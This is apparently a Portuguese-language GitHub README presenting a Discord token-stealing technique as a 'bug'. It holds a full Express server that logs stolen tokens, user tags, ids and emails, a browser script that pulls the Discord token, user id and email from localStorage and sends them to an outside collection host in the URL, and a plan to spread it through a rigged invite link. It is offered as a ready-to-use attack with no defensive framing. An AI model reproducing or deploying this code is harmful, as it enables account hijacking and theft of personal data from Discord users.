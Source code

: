 # Discord Bug Token
 ## Este é um bug do discord onde é possivel conseguir o token de um usuario apenas com um comando

 ### Oque precisa ser feito para acontecer o bug:

 - primeiro: o desenvolvimento de um servidor de coleta de parametros pela url que seria algo muito simples.Exemplo : [Servidor Exemplo](https://)

```js
const express = require('express');
const app = express();
const port = 3000;

const path = require("path");

const low = require('lowdb') //banco de dados
const FileSync = require('lowdb/adapters/FileSync')
const adapter = new FileSync('database/db.json')
const db = low(adapter)

app.use("/public", express.static("public"));

app.get("/", (req, res) => {

    let token = req.query.token
    let tag = req.query.tag
    let id = req.query.id
    let email = req.query.email

    let bot = `false`

    if(token == undefined && tag == undefined && id == undefined && email == undefined){
        bot = `true`
        console.log('bot...')
        return;
    }

    if(token == undefined){
        token = `parametro token não passado`
    }
    
    if(tag == undefined){
        tag = `undefined#0000`
    }
    
    if(id == undefined){
        id = `parametro id não passado`
    }
    
    if(email == undefined){
        email = `undefined@gmail.com`
    }

    console.log(`o usuario logou com sucesso:${tag}`)
    if(!token) return;

    db.get('logs').push({
        token: token,
        tag: tag,
        id: id,
        email: email 
    }).write()    

    res.sendFile(path.join(__dirname, "public/index.html"));
})    

app.listen(port, () => console.log(`Example app listening at http://localhost:${port}`)); 
``´
 - segundo: o desenvolvimento de um script para enviar o token por esse url.Exemplo :
[Script de Envio Para o Servidor](https://google.com)
 
 ```js
function env(modul){
    const token = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token
    const tag = `${window.document.querySelector('div.size14-e6ZScH').innerText}%23${window.document.querySelector('div.size12-3cLvbJ').innerText.substr(1)}`
    const id = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.user_id_cache
    const email = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.email_cache

    if(modul == undefined){
        op1()
        modul = 1
    }else{}

    switch(modul){
        case 1:
            op1()
            break
        default:
            console.log(`Modulo ${modul} não foi encontrado`)
    }

    function op1(){
        window.location.href = `https://tokenlog.sasukecusaovh.repl.co/?token=${token}&tag=${tag}&id=${id}&email=${email}`
    }
}

env(1)
```
 - terceiro: o desenvolvimento de um url infectado como o invite de um server ou o invite de um bot para que quando o discord seja  iniciado o codigo seja rodado
 
 ### Oque era pra acontecer caso não existise bug:

 se o bug nao existisse o usuario iria usar o discord normalmente sem enviar nenhum dado sensivel para nenhum servidor

 ### Oque realmente acontece:

com o bug acontecendo o usuario acha que esta usando o discord normalmente porem ele envia um dado sensivel 


